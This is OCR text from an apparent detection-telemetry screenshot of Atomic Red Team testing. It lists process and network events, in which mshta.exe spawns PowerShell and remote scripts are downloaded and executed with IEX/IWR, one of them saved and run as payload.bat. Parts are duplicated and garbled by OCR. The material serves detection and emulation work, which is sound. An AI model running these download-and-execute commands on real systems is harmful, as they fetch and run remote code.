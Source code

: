 amazonAssistantService.exe explorer.exe
cmd.exe
Atomic Testing
cmd.exe

mshta.exe mshta.exe powershell.exe powershell.exe
powershell.exe
powershell.exe
powershell.exe

"mshta.exe" "C:\Program Files (x86)\Amazon\Amazon Assistant\aa.hta"
images-na.ssl-images-amazon.com "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
go.microsoft.com powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/ atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.ps1')
raw.githubusercontent.com powershell.exe IWR -uri "https://raw.githubusercontent.com/ redcanaryco/atomic-red-team/master/ARTifacts/ Chain_Reactions/chain_reaction_DragonsTail.bat" -OutFile "~\Documents\payload.bat" ; ~\Documents\payload.bat

network

powershell.exe

raw.githubusercontent.com

lolbas revello

event_type parent_process_name

process_name command_line

destination

process network process network
process
network
process

amazonAssistantSeLrveigceit.eimxeatme sAhmtaa.ezxoen

explorer.exe

mshta.exe powershell.exe powershell.exe

cmd.exe
Atomic Testing

powershell.exe powershell.exe

cmd.exe

powershell.exe

"mshta.exe" "C:\Program Files (x86)\Amazon\Amazon Assistant\aa.hta"
images-na.ssl-images-amazon.com "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
go.microsoft.com powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/ atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.ps1')
raw.githubusercontent.com powershell.exe IWR -uri "https://raw.githubusercontent.com/ redcanaryco/atomic-red-team/master/ARTifacts/ Chain_Reactions/chain_reaction_DragonsTail.bat" -OutFile "~\Documents\payload.bat" ; ~\Documents\payload.bat
